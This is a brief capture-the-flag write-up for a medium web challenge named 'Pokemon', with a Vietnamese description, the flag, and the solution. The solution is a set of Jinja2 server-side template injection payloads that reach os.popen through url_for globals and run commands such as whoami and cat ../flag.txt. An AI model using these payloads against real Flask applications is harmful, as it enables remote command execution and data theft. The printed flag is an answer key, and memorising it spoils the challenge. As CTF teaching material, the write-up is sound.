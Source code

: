 # Pokemon
Category: Web

Difficulty: Medium

### Description
Hãy cùng nhau chọn ra 1 người bạn đồng hành trong hành trình sắp tới tại clb E nào.

(Cấp cho player file app.py)
### Flag
ehcctf(g0tt4c_c4tch_3m_4ll)

### Concept
SSTI

### Writeup
`{{7*7}}`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=whoami`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=cat ../flag.txt`
